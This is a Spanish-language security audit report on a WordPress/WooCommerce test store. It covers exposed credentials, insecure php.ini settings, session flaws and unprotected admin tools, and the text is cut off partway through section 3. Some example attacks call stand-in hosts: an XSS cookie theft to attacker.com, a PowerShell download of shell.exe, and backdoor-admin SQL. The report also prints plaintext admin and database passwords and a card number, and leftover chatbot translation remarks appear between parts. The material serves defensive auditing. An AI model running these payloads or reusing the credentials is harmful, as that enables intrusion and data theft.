



# SSSAB – Informe de Análisis de Código de Seguridad
## Evaluación de Seguridad del Código Fuente – Prácticas de Programación Inseguras

**Versión del Documento:** 1.0
**Fecha de Evaluación:** 31-10-2025
**Aplicación:** SuperSecureStoreAngelitoBellaco (SSSAB)
**Conjunto Tecnológico:** WordPress 6.8.3, WooCommerce 10.3.3, PHP 8.4.14, MySQL 8.4.3
**Analista:** Equipo de Evaluación de Seguridad
**Tipo de Evaluación:** Análisis Estático de Código & Revisión de Configuración

---

## Resumen Ejecutivo

Este informe documenta los hallazgos de un análisis integral de seguridad del código fuente de la plataforma de e-commerce SSSAB.
La evaluación se centró en identificar prácticas de programación inseguras, vulnerabilidades de configuración y debilidades estructurales de seguridad que pudieran ser explotadas por actores maliciosos.

**Enumeración:**

| Componente       | Versión     | Estado                                            |
| ---------------- | ----------- | ------------------------------------------------- |
| WordPress        | 6.8.3       | Revisar base de datos CVE                         |
| WooCommerce      | 10.3.3      | Revisar base de datos CVE                         |
| Wordfence        | 8.1.0       | Revisar base de datos CVE                         |
| PHP              | 8.4.14      | Revisar base de datos CVE                         |
| MySQL            | 8.4.3       | Revisar base de datos CVE                         |
| Apache           | 2.4.65      | Revisar base de datos CVE                         |
| Adminer          | 5.3.0       | **CVE-2021-43008 (XSS), CVE-2021-21311 (SSRF)**   |
| New User Approve | Desconocido | **Vulnerabilidad Axios (mitigada por plugin MU)** |

### Resumen de Hallazgos Clave

| Severidad    | Conteo | Estado                                             |
| ------------ | ------ | -------------------------------------------------- |
| **CRÍTICA**  | 2      | Requiere remediación inmediata                     |
| **ALTA**     | 5      | Requiere atención urgente                          |
| **MEDIA**    | 4      | Debe abordarse pronto                              |
| **BAJA**     | 2      | Se recomiendan mejoras menores                     |
| **POSITIVA** | 11     | Controles de seguridad correctamente implementados |

### Evaluación Global de Riesgo

**RIESGO CRÍTICO** – La aplicación contiene múltiples vulnerabilidades críticas que exponen credenciales sensibles y permiten acceso no autorizado.
Se requiere una remediación inmediata antes de cualquier implementación en producción.

---

## Tabla de Contenidos

1. [Hallazgos Críticos](#1-hallazgos-críticos)
2. [Hallazgos de Alta Severidad](#2-hallazgos-de-alta-severidad)
3. [Hallazgos de Severidad Media](#3-hallazgos-de-severidad-media)
4. [Hallazgos de Severidad Baja](#4-hallazgos-de-severidad-baja)
5. [Controles de Seguridad Positivos](#5-controles-de-seguridad-positivos)
6. [Análisis Detallado por Componente](#6-análisis-detallado-por-componente)
7. [Hoja de Ruta de Remediación](#7-hoja-de-ruta-de-remediación)
8. [Recomendaciones de Programación Segura](#8-recomendaciones-de-programación-segura)

---

## 1. Hallazgos Críticos

### 1.1 Credenciales Codificadas en la Documentación

**Severidad:** CRÍTICA
**Puntaje CVSS:** 9.8 (Crítica)
**CWE:** CWE-798 (Uso de Credenciales Codificadas en el Código)

**Ubicación:** `README.md:10-15`






**Código Vulnerable:**

```markdown
Cuenta admin: adminotepppppp3p3p
Correo admin: correoadminonaoiharioai@correoanadoisdao.com
Contraseña admin: PiUPbKm0j3dMPatWqV*@geit
---
Cuenta usuario: jofixi7963
Contraseña usuario: SiT9zryNT9Zqw510U2OVjIxb
```

**También expone:**

```markdown
N.º de tarjeta de crédito para compras  
4032038181397310  
10/2030  
CVC 3 dígitos cualquiera que quieran poner  

Cupón de bienvenida: BIENVENIDO
```

**Impacto:**

* **Acceso administrativo directo** al panel de WordPress
* Capacidad de **comprometer todo el sitio**
* Acceso a **todos los datos de clientes, pedidos y pagos**
* Posibilidad de **instalar puertas traseras** y mantener acceso persistente
* **Acceso completo a la base de datos** mediante privilegios admin
* **Potencial de fraude financiero** por la exposición de una tarjeta de prueba

**Escenario de Explotación:**

1. El atacante accede al repositorio o documentación pública
2. Recupera credenciales admin: `adminotepppppp3p3p:PiUPbKm0j3dMPatWqV*@geit`
3. Inicia sesión en `https://sssab.test/wp-admin/`
4. Instala un plugin malicioso o crea cuentas de respaldo
5. Exfiltra la base de datos de clientes con PII
6. Modifica precios de productos o redirecciona pagos
7. Mantiene acceso persistente incluso tras cambio de contraseñas

**Remediación (INMEDIATA):**

1. **Eliminar de inmediato todas las credenciales** de `README.md`
2. **Rotar todas las contraseñas expuestas** (admin, usuario, base de datos)
3. **Auditar todas las cuentas admin** en busca de accesos no autorizados
4. **Revisar registros de acceso** para detectar actividad sospechosa
5. **Implementar .gitignore** para archivos sensibles
6. **Usar variables de entorno** para todas las credenciales
7. **Forzar restablecimiento de contraseña** a todos los usuarios
8. **Habilitar 2FA/MFA** en todas las cuentas administrativas

**Alternativa Segura:**

```markdown
## Autenticación

Para credenciales de desarrollo local, consulte `.env.local` (no se incluye en el repositorio).  
Comuníquese con el líder del equipo de desarrollo para obtener credenciales de acceso.

## Información de Pago de Prueba

Use cuentas de prueba del entorno Sandbox de PayPal.  
Consulte la documentación para desarrolladores de PayPal.
```

---

### 1.2 Credenciales de Base de Datos en Texto Plano

**Severidad:** CRÍTICA
**Puntaje CVSS:** 9.1 (Crítica)
**CWE:** CWE-256 (Almacenamiento en Texto Plano de Contraseña), CWE-312 (Almacenamiento en Claro de Información Sensible)

**Ubicación:** `wp-config.php:26-29`

**Código Vulnerable:**

```php
/** Nombre de usuario de la base de datos */
define( 'DB_USER', 'app_user_x9z' );

/** Contraseña de la base de datos */
define( 'DB_PASSWORD', 'L9#mP2$vR5@kN8qW' );
```

**Impacto:**

* **Acceso directo a la base de datos** con privilegios completos de la aplicación
* **Exfiltración total de datos** (PII, pedidos, tokens de pago)
* **Manipulación o eliminación de datos**
* Posibilidad de **inyectar datos maliciosos** (XSS almacenado, cuentas traseras)
* **Elusión de controles de seguridad a nivel de aplicación**
* **Escalamiento de privilegios** a administrador modificando tablas de usuarios

**Vectores de Ataque:**

1. **Inclusión de Archivos Locales (LFI)** – lectura de `wp-config.php` por travesía de ruta
2. **Exposición de archivos de respaldo** (`wp-config.php.bak`, `wp-config.php~`)
3. **Divulgación de código fuente** por configuración errónea del servidor
4. **Exposición en repositorio** si `wp-config.php` fue subido a control de versiones
5. **Vulnerabilidades del servidor** (RCE → lectura de archivos)
6. **Acceso vía Adminer** combinado con interfaz expuesta

**Ejemplo de Explotación:**

```sql
-- Tras obtener acceso con las credenciales expuestas
-- El atacante puede crear una cuenta admin trasera

USE tienda_segura_db;

-- Ver todos los usuarios administradores
SELECT user_login, user_email FROM tsec_7a4b_users WHERE ID IN (
    SELECT user_id FROM tsec_7a4b_usermeta
    WHERE meta_key = 'tsec_7a4b_capabilities'
    AND meta_value LIKE '%administrator%'
);

-- Crear admin trasero (omite seguridad de WordPress)
INSERT INTO tsec_7a4b_users (user_login, user_pass, user_email)
VALUES ('backdoor_admin', MD5('secret123'), 'attacker@evil.com');

-- Conceder privilegios de administrador
SET @backdoor_id = LAST_INSERT_ID();
INSERT INTO tsec_7a4b_usermeta (user_id, meta_key, meta_value)
VALUES (@backdoor_id, 'tsec_7a4b_capabilities', 'a:1:{s:13:"administrator";b:1;}');

-- Exfiltrar datos de clientes
SELECT user_email, meta_value FROM tsec_7a4b_users
LEFT JOIN tsec_7a4b_usermeta ON ID = user_id
WHERE meta_key LIKE 'billing%';
```

**Remediación (INMEDIATA):**

1. **Implementar variables de entorno:**

```php
// wp-config.php (versión segura)
define( 'DB_USER', getenv('DB_USER') ?: 'default_user' );
define( 'DB_PASSWORD', getenv('DB_PASSWORD') );

// Fallar si no se configuraron credenciales
if ( empty( getenv('DB_PASSWORD') ) ) {
    die('Credenciales de base de datos no configuradas. Contacte al administrador.');
}
```

2. **Crear archivo .env (y agregar a .gitignore):**

```env
DB_USER=app_user_x9z
DB_PASSWORD=NUEVA_CONTRASEÑA_SEGURA_AQUI
```

3. **Asignar permisos adecuados al archivo:**

```bash
chmod 600 wp-config.php   # Solo lectura/escritura para el propietario
chown www-data:www-data wp-config.php
```

4. **Rotar de inmediato la contraseña de la base de datos**
5. **Auditar los registros de la base de datos** para detectar accesos no autorizados
6. **Revisar usuarios de base de datos** y eliminar privilegios innecesarios
7. **Habilitar registro de consultas SQL** temporalmente para monitorear actividad sospechosa


Perfecto 🔐
Aquí tienes la **Parte 2** de la traducción completa del documento
**“SECURITY_CODE_ANALYSIS_REPORT_SPANISH.md”**, correspondiente a los **Hallazgos de Alta Severidad**, traducida íntegramente al español y manteniendo el formato original Markdown.

---

## 2. Hallazgos de Alta Severidad

### 2.1 Configuración de PHP que Expone Información del Servidor

**Severidad:** ALTA
**Puntaje CVSS:** 7.5 (Alta)
**CWE:** CWE-200 (Exposición de Información Sensible a un Actor No Autorizado)

**Ubicación:** `php.ini:335`

**Configuración Vulnerable:**

```ini
expose_php=On
```

**Impacto:**

* **Divulgación de la versión de PHP** en los encabezados HTTP (`X-Powered-By: PHP/8.4.14`)
* Permite **ataques dirigidos** a vulnerabilidades conocidas de esa versión
* Facilita **tareas de reconocimiento** a atacantes
* Viola el principio de **seguridad por ocultamiento** (defensa en profundidad)

**Ejemplo de Respuesta HTTP:**

```http
HTTP/1.1 200 OK
X-Powered-By: PHP/8.4.14
Content-Type: text/html; charset=UTF-8
```

**Remediación:**

```ini
# php.ini
expose_php=Off
```

**Verificación:**

```bash
curl -I https://sssab.test/ | grep -i "X-Powered-By"
# No debería devolver nada después de aplicar la corrección
```

---

### 2.2 Visualización de Errores de PHP Activada (Divulgación de Información)

**Severidad:** ALTA
**Puntaje CVSS:** 7.5 (Alta)
**CWE:** CWE-209 (Generación de Mensaje de Error que Contiene Información Sensible)

**Ubicación:** `php.ini:429`

**Configuración Vulnerable:**

```ini
display_errors=On
```

**Impacto:**

* **Revela rutas completas de archivos** (ejemplo: `C:\laragon\www\SSSAB\wp-content\...`)
* Muestra **mensajes de error de base de datos** con nombres de tablas y columnas
* Exposición de **trazas de pila (stack traces)** con detalles de la lógica interna
* **Divulgación de configuraciones internas**
* Facilita ataques como **inyección SQL** al mostrar mensajes precisos

**Ejemplo de Divulgación de Error:**

```
Warning: mysqli_query(): (HY000/1054): Unknown column 'user_password'
in table 'tsec_7a4b_users'
in C:\laragon\www\SSSAB\wp-includes\wp-db.php on line 1924
```

Esto revela:

* Nombre de la tabla: `tsec_7a4b_users`
* Prefijo de tablas: `tsec_7a4b_`
* Ruta absoluta: `C:\laragon\www\SSSAB\`
* Estructura de archivos de WordPress

**Explotación para Inyección SQL:**
Un atacante puede usar los errores para:

* Descubrir nombres de tablas/columnas correctos
* Ajustar la sintaxis SQL exacta
* Extraer datos por medio de **inyección basada en errores**

**Remediación:**

```ini
# php.ini (Configuración para Producción)
display_errors=Off
display_startup_errors=Off
log_errors=On
error_log=/var/log/php/php-errors.log  # Ubicación segura, no accesible desde web
error_reporting=E_ALL
```

**Nota:** `wp-config.php:99` intenta sobrescribir esta configuración con:

```php
@ini_set('display_errors', 0);
```

pero esto **no es suficiente** porque:

1. El símbolo `@` suprime errores durante la llamada a `ini_set`
2. Algunos entornos de hosting **no permiten** modificar `display_errors` en tiempo de ejecución
3. Errores ocurridos **antes de cargar `wp-config.php`** aún se mostrarán

---

### 2.3 Configuración Insegura de Sesiones

**Severidad:** ALTA
**Puntaje CVSS:** 7.5 (Alta)
**CWE:** CWE-384 (Fijación de Sesión), CWE-614 (Cookie Sensible sin Bandera ‘HttpOnly’)

**Ubicación:** `php.ini:1112, 1142, 1147`

**Configuración Vulnerable:**

```ini
session.use_strict_mode=0
session.cookie_httponly=
session.cookie_samesite=
```

**Impacto:**

**Fijación de Sesión (session.use_strict_mode=0):**

* El atacante puede **forzar al usuario a usar una sesión controlada por él**
* Cuando la víctima inicia sesión, el atacante obtiene acceso autenticado
* Permite **bypass** de mecanismos de autenticación

**Robo de Sesión vía XSS (cookie_httponly no configurado):**

* JavaScript puede acceder a las cookies mediante `document.cookie`
* Cualquier vulnerabilidad XSS = **toma de cuenta total**
* Incluso vulnerabilidades menores se vuelven críticas

**Vulnerabilidad CSRF (cookie_samesite no configurado):**

* Las cookies de sesión se envían en **peticiones entre sitios**
* Habilita **ataques Cross-Site Request Forgery (CSRF)**
* El navegador de la víctima envía solicitudes autenticadas a sitios maliciosos

**Escenario de Ataque – Fijación de Sesión:**

```http
1. El atacante visita: https://sssab.test/wp-login.php
   Obtiene una sesión: PHPSESSID=attacker_session_id

2. Envía un enlace a la víctima:
   https://sssab.test/wp-login.php?PHPSESSID=attacker_session_id

3. La víctima hace clic e inicia sesión
   La sesión permanece: attacker_session_id

4. El atacante usa ese mismo ID de sesión para acceder a la cuenta de la víctima
```

**Escenario de Ataque – Robo de Sesión vía XSS:**

```javascript
// Si existe alguna vulnerabilidad XSS, el atacante inyecta:
<script>
fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>

// El atacante recibe: PHPSESSID=victim_session; wordpress_logged_in_xxx=...
// Usa las cookies robadas para suplantar a la víctima
```

**Remediación:**

```ini
# php.ini (Configuración Segura de Sesiones)
session.use_strict_mode=1
session.cookie_httponly=1
session.cookie_secure=1
session.cookie_samesite=Strict
session.use_only_cookies=1
session.use_trans_sid=0
session.name=SSSAB_SESSID  # Nombre personalizado (por ocultamiento)
```

**Nota:** `wp-config.php:100-102` intenta sobrescribir con:

```php
@ini_set('session.cookie_httponly', 1);
@ini_set('session.cookie_secure', 1);
@ini_set('session.use_only_cookies', 1);
```

Esto es **insuficiente** porque:

* Falta `session.use_strict_mode=1` (crítico)
* Falta `session.cookie_samesite`
* El uso de `@` suprime errores y no garantiza que se apliquen
* Algunos entornos prohíben modificar la configuración de sesión en tiempo de ejecución

---

### 2.4 Límites de Tamaño de Subida Inseguros (Riesgo de DoS)

**Severidad:** ALTA
**Puntaje CVSS:** 7.5 (Alta)
**CWE:** CWE-400 (Consumo de Recursos No Controlado)

**Ubicación:** `php.ini:598, 725`

**Configuración Vulnerable:**

```ini
post_max_size=2G
upload_max_filesize=2G
```

**Impacto:**

* Posible **Denegación de Servicio (DoS)** mediante subidas masivas de archivos
* **Agotamiento de espacio en disco**
* **Agotamiento de memoria** al procesar archivos grandes
* **Consumo excesivo de ancho de banda**
* Saturación de recursos del servidor

**Escenario de Ataque:**

```bash
# Script atacante para agotar recursos del servidor
for i in {1..100}; do
    dd if=/dev/zero of=archivo_grande_$i.jpg bs=1G count=2
    curl -X POST -F "file=@archivo_grande_$i.jpg" \
         https://sssab.test/wp-admin/upload.php \
         --cookie "wordpress_logged_in_xxx=..." &
done

# Resultado:
# - 200 GB de solicitudes de subida
# - El disco del servidor se llena
# - Procesos de Apache/PHP consumen toda la memoria
# - Usuarios legítimos no pueden acceder al sitio
```

**Impacto Empresarial:**

* El sitio se vuelve inaccesible
* Los pedidos de clientes no se procesan
* Pérdida de ingresos durante la caída
* Posible **corrupción de datos** si el disco se llena completamente

**Diferencia con README.md:**
El README.md indica:

```markdown
upload_max_filesize = 2M
post_max_size = 8M
```

Pero el archivo `php.ini` real contiene:

```ini
upload_max_filesize=2G
post_max_size=2G
```

Esto indica una **deriva de configuración** y **procesos de despliegue deficientes**.

**Remediación:**

```ini
# php.ini (Límites Seguros)
post_max_size=8M
upload_max_filesize=2M
max_file_uploads=10
max_execution_time=30
max_input_time=60
memory_limit=128M
```

**Protección Adicional:**

```php
// wp-config.php
define('WP_MEMORY_LIMIT', '64M');
define('WP_MAX_MEMORY_LIMIT', '128M');
```

```apache
# .htaccess (Defensa adicional)
<IfModule mod_php.c>
    php_value upload_max_filesize 2M
    php_value post_max_size 8M
</IfModule>
```

**Monitoreo:**

* Configurar alertas por espacio en disco (<10% libre)
* Monitorear tasa y volumen de subida por usuario
* Configurar `LimitRequestBody 10485760` (10 MB) en Apache

---

### 2.5 Funciones Peligrosas de PHP No Deshabilitadas

**Severidad:** ALTA
**Puntaje CVSS:** 7.3 (Alta)
**CWE:** CWE-78 (Inyección de Comandos del Sistema Operativo)

**Ubicación:** `php.ini:272`

**Configuración Vulnerable:**

```ini
disable_functions=
```

**Impacto:**

* Posible **Ejecución Remota de Código (RCE)** si existe vulnerabilidad de inyección
* Capacidad de ejecutar **comandos del sistema**
* Manipulación de archivos fuera del directorio raíz
* **Escalamiento de privilegios**
* Instalación de **puertas traseras persistentes**

**Funciones Peligrosas Habilitadas:**

```php
exec()          // Ejecuta programas externos
shell_exec()    // Ejecuta comandos de shell
system()        // Ejecuta programas y muestra salida
passthru()      // Ejecuta programa y muestra salida cruda
proc_open()     // Ejecuta comando y abre punteros de archivo
popen()         // Abre puntero de proceso
pcntl_exec()    // Ejecuta programa externo
eval()          // Evalúa código (inyectable)
```

**Escenario de Ataque:**

```php
// Si el atacante encuentra vulnerabilidad de inyección de código
// Ejemplo: plugin vulnerable con entrada no sanitizada

// Carga maliciosa del atacante:
?cmd=system('whoami');

// Si las funciones están deshabilitadas, fallará
// Si están habilitadas, el atacante puede ejecutar:
system('net user atacante Password123! /add');
system('net localgroup administrators atacante /add');
system('powershell wget http://attacker.com/shell.exe -O C:\\shell.exe');
system('C:\\shell.exe');  // Puerta trasera persistente
```

**Remediación:**

```ini
# php.ini (Deshabilitar Funciones Peligrosas)
disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,phpinfo,proc_nice,proc_terminate,proc_get_status,proc_close,pfsockopen,leak,apache_child_terminate,posix_kill,posix_mkfifo,posix_setpgid,posix_setsid,posix_setuid,pcntl_exec
```

**Prueba Después de Implementación:**

```php
// Script de prueba: test-funciones-deshabilitadas.php
<?php
$funciones = ['exec', 'shell_exec', 'system', 'passthru'];
foreach ($funciones as $func) {
    if (function_exists($func)) {
        echo "$func está HABILITADA (VULNERABLE)\n";
    } else {
        echo "$func está DESHABILITADA (SEGURA)\n";
    }
}
?>
```

**Nota:** El núcleo de WordPress y WooCommerce **no requieren** estas funciones para su funcionamiento normal.

Buen punto — gracias por avisar. Aquí tienes **primero el apartado 2.6** (que faltó) y **luego la Parte 3** con los hallazgos de severidad media y baja, todo traducido al español y manteniendo el formato Markdown original.

---

### 2.6 Herramientas Administrativas Expuestas (Sin Control de Acceso)

**Severidad:** ALTA
**Puntaje CVSS:** 8.1 (Alta)
**CWE:** CWE-425 (Solicitud Directa), CWE-306 (Falta de Autenticación)

**Ubicación:** Directorios accesibles por la web

**Herramientas Expuestas:**

* `https://sssab.test/adminer/` - Interfaz de administración de base de datos (Adminer 5.3.0)
* `https://sssab.test/phpredisadmin/` - Interfaz de administración de Redis
* `https://sssab.test/memcached/` - Interfaz de administración de Memcached

**Impacto:**

* **Acceso directo a la base de datos** sin autenticación de WordPress
* **Capacidad total para manipular la base de datos** (leer, modificar, borrar)
* **Exportar/respaldar** toda la base de datos incluyendo PII
* **Posible explotación de CVE conocidos** (Adminer tiene vulnerabilidades conocidas)
* **Envenenamiento de caché** vía Redis/Memcached admin

**Vulnerabilidades conocidas de Adminer:**

* **CVE-2021-43008** - vulnerabilidad XSS
* **CVE-2021-21311** - vulnerabilidad SSRF
  Ambas permiten a un atacante comprometer el sistema.

**Escenario de Ataque:**

```
1. El atacante descubre: https://sssab.test/adminer/

2. Intenta ingresar con credenciales expuestas:
   Servidor: localhost
   Usuario: app_user_x9z
   Contraseña: L9#mP2$vR5@kN8qW

3. Obtiene acceso completo a la base de datos

4. Ejecuta SQL:
   SELECT * FROM tsec_7a4b_users;
   -- Extrae todas las credenciales de usuarios

5. Crea cuenta admin trasera (como en la sección 1.2)

6. Modifica precios de productos:
   UPDATE tsec_7a4b_postmeta
   SET meta_value = '0.01'
   WHERE meta_key = '_price';

7. Exfiltra datos de clientes:
   SELECT * FROM tsec_7a4b_usermeta
   WHERE meta_key LIKE 'billing%'
   INTO OUTFILE '/tmp/customer_data.csv';
```

**Remediación (INMEDIATA):**

**Opción 1: Eliminar completamente (RECOMENDADO)**

```bash
rm -rf /ruta/a/adminer
rm -rf /ruta/a/phpredisadmin
rm -rf /ruta/a/memcached
```

**Opción 2: Lista blanca de IPs**

```apache
# .htaccess en el directorio de adminer
<IfModule mod_authz_core.c>
    Require ip 192.168.1.100
    Require ip 10.0.0.0/8
</IfModule>

<IfModule !mod_authz_core.c>
    Order Deny,Allow
    Deny from all
    Allow from 192.168.1.100
    Allow from 10.0.0.0/8
</IfModule>
```

**Opción 3: Autenticación HTTP**

```apache
# .htaccess en el directorio de adminer
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /ruta/a/.htpasswd
Require valid-user
```

```bash
# Crear .htpasswd
htpasswd -c /ruta/a/.htpasswd admin_user
```

**Opción 4: Mover a ubicación no estándar**

```bash
# Mover a un directorio difícil de adivinar
mv adminer /ruta/a/admin-db-mgmt-a8f7d6e9c2b1
# Acceso: https://sssab.test/admin-db-mgmt-a8f7d6e9c2b1/
```

**Buenas prácticas:**

* Usar túnel SSH para gestión de base de datos
* Ejecutar herramientas de administración (phpMyAdmin, Adminer) sólo en localhost
* Implementar VPN para accesos administrativos

---

## 3. Hallazgos de Severidad Media

### 3.1 Exposición de Información de Depuración de WordPress

**Severidad:** MEDIA
**Puntaje CVSS:** 5.3 (Media)
**CWE:** CWE-215 (Exposición de Información a través de Información de Depuración)

**Ubicación:** `wp-config.php:88, 103-104`

**Configuración:**

```php
define( 'WP_DEBUG', false );
// ...
define( 'WP_DEBUG_DISPLAY', false );
define( 'WP_DEBUG', false );  // Definición duplicada
```

**Problemas:**

1. **Definición duplicada** de `WP_DEBUG` (líneas 88 y 104)
2. El modo debug está desactivado, lo cual es correcto para producción
3. Sin embargo, **no se configuró explícitamente `WP_DEBUG_LOG`**

**Riesgo potencial:**

* Si `WP_DEBUG` se pone accidentalmente en `true`, los errores podrían mostrarse
* No existe un registro centralizado de errores configurado

**Remediación:**

```php
// wp-config.php (Configuración Segura)
define( 'WP_DEBUG', false );
define( 'WP_DEBUG_DISPLAY', false );
define( 'WP_DEBUG_LOG', true );  // Registrar en wp-content/debug.log
define( 'SCRIPT_DEBUG', false );

// Eliminar la definición duplicada
// define( 'WP_DEBUG', false );  // BORRAR ESTA LÍNEA
```

**Protección para debug.log:**

```apache
# .htaccess en wp-content
<Files debug.log>
    Order allow,deny
    Deny from all
</Files>
```

---

### 3.2 Indicador de Entorno de Desarrollo

**Severidad:** MEDIA
**Puntaje CVSS:** 4.3 (Media)
**CWE:** CWE-209 (Exposición de Información a través de Mensajes de Error)

**Ubicación:** `wp-config.php:105`

**Configuración:**

```php
define( 'WP_ENVIRONMENT_TYPE', 'local' );
```

**Impacto:**

* **Indica un entorno de desarrollo/pruebas** a potenciales atacantes
* Sugiere que podrían existir **medidas de seguridad menos estrictas**
* Puede habilitar características de depuración en plugins
* **Ayuda a fingerprinting** del entorno por parte de atacantes

**Remediación:**

```php
// wp-config.php
define( 'WP_ENVIRONMENT_TYPE', 'production' );
```

**Nota:** Establecer el valor correcto según el entorno real:

* `local` - Desarrollo local
* `development` - Servidor de desarrollo
* `staging` - Entorno de pruebas
* `production` - Producción

---

### 3.3 Instalación de Plugins No Deshabilitada

**Severidad:** MEDIA
**Puntaje CVSS:** 5.5 (Media)
**CWE:** CWE-669 (Transferencia Incorrecta de Recursos entre Esferas)

**Ubicación:** `wp-config.php:95`

**Configuración:**

```php
// Evita que los usuarios instalen plugins/temas (opcional, máxima seguridad en producción)
// define( 'DISALLOW_FILE_MODS', true );
```

**Impacto:**

* Los administradores pueden **instalar plugins/temas arbitrarios**
* Si la cuenta admin se compromete, pueden instalar plugins maliciosos
* Las actualizaciones de plugins/temas pueden introducir vulnerabilidades
* **Puertas traseras** pueden ser instaladas vía subida de plugin

**Protección actual:**

```php
define( 'DISALLOW_FILE_EDIT', true );  // ✓ Impide edición vía admin
```

Esto evita editar código desde el panel, pero **no bloquea la instalación** de nuevos plugins/temas.

**Escenario de ataque:**

```
1. Atacante compromete cuenta admin (credenciales expuestas)
2. Va a Plugins > Añadir nuevo > Subir plugin
3. Sube plugin malicioso con backdoor
4. Activa el plugin
5. Backdoor proporciona acceso persistente
6. Incluso cambiando contraseña, el backdoor permanece
```

**Remediación:**

```php
// wp-config.php (Máxima seguridad para producción)
define( 'DISALLOW_FILE_EDIT', true );   // Ya está ✓
